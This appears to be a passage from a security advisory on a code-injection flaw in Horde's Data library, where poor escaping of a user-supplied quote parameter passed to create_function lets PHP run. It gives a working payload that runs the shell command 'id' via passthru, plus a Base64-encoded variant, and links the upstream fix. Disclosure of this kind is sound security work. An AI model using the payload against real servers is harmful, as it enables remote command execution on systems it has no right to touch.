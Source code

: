 Among the other things, the user supplies `$params['quote']`, so for example if its value is `quote` then `create_function` is called as:

```php
create_function('$a', "return str_replace('\\quote', 'quote', \$a);");
```

The insufficient sanitization of `$params['quote']` escapes `'` as `\'` but fails to escape the `\` itself thus allowing to escape the last hard coded `'`. By passing `quote\`, `create_function` is called as:

```php
create_function('$a', "return str_replace('\\quote\\', 'quote\\', \$a);")
```

And evaluated body is:

```php
return str_replace('\quote\', 'quote\', $a);
```

Which causes a syntax error. (Note how the first string argument of `str_replace` now terminates at the first `'` of the second instance of `quote`.)

Follows a simple payload that executes the `id` shell command and returns the output in the response:

```
).passthru("id").die();}//\
```

Where the evaluated body eventually is:

```php
return str_replace('\).passthru(id).die();}//\', ').passthru(id).die();}//\', $a);
```

Here is the explanation of its parts:

- `)` terminates `str_replace`;

- the concatenation operator (`.`) continues the expression since the code starts with a `return`;

- `passthru("id")` is an example of the actual payload to be executed;

- `die()` is needed because `create_function` is used inside `array_map` thus it can be called multiple times and it also aborts the rest of the page;

- `}` terminates the block `function (...) {...}` used by the implementation of `create_function`, otherwise the following `//` would comment out `}` causing a syntax error;

- `//` comments out the remaining invalid PHP code;

- `\` escapes the hard coded string as shown above.

Since some characters are treated specially, it may be convenient to encode the command to be executed with Base64, the payload will then become:

```
).passthru(base64_decode("aWQ=")).die();}//\
```

## Proof of concept


[^kronolith]: Although it seems feasible according to the source code it does not seem possible to reach the feature via the web interface.
[horde-data]: https://github.com/horde/Data
[horde-data-fix]: https://github.com/horde/Data/commit/78ad0c2390176cdde7260a271bc6ddd86f4c9c0e#diff-e6c7843f9847ab630ddabc9b004e1e7d
[^module]: This module (with some modifications) is [now](https://github.com/rapid7/metasploit-framework/pull/13082#issuecomment-602563735) part of Metasploit.